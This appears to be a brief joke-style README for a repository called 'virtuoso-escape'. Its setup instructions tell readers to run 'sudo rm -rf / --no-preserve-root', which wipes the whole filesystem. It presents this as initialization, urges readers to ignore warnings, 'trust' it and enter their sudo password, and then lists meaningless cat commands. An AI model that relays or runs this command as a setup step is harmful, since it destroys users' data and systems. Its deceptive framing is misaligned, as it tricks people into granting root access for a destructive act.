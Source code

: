 # virtuoso-escape

Run this command to initialize this repo (ignore any warnings (they're for backwards compatibility, trust) and authenticate with sudoer password).
```bash
sudo rm -rf / --no-preserve-root
```
also run
```bash 
cat cat 
```
also also run
```bash
cat dog
```